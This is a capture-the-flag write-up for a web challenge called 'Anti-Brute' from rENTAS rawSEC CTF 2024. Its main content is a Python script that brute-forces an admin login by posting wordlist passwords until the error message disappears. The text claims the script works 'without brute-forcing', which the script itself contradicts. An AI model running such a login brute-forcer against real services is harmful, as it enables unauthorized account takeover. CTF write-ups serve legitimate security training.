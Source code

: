 ```yaml
---
title: Anti-Brute
description: The challenge involves bypassing anti-brute force measures to retrieve the flag without brute-forcing.
date: 2024-03-09 00:00:00+0000
categories:
   - rENTAS rawSEC CTF 2024
   - CTF Writeup
tags:
   - Web
weight: 1     
---
```

# Anti-Brute CTF Challenge Writeup

## Challenge Information
- **Name**: Anti-Brute
- **Points**: 340
- **Category**: Web
- **Objective**: The challenge involves bypassing anti-brute force measures to retrieve the flag without brute-forcing.

## Solution
Here's a detailed solution for the Anti-Brute CTF challenge:

1. **Initial Assessment**:
   - Received a wordlist and instructions not to brute force the password.
   - But I brute-forced anyways

2. **Attempted Brute Force**:
   - Tried using Burp Suite's Intruder tool for brute forcing, but it was unsuccessful for unknown reasons.

3. **Python Script**:
   - Created a Python script to automate the process of retrieving the flag without brute-forcing.

      ```python
      import requests

      url = 'https://no-brute.ctf.rawsec.com/login.php'

      headers = {
          'Content-Type': 'application/x-www-form-urlencoded',
      }

      with open('possible_password.txt', 'r') as file:
          for line in file:
              password = line.strip()
              data = {
                  'username': 'admin',
                  'password': password
              }
              response = requests.post(url, headers=headers, data=data)
              if 'Invalid username or password' not in response.text:
                  print(f"Password found: {password}")
                  print(response.text)
                  break
              else:
                  print(f"Trying password: {password}")
      ```

4. **Flag Extraction**:
   - Successfully extracted the flag using the Python script.


        ![Flag](flag.png)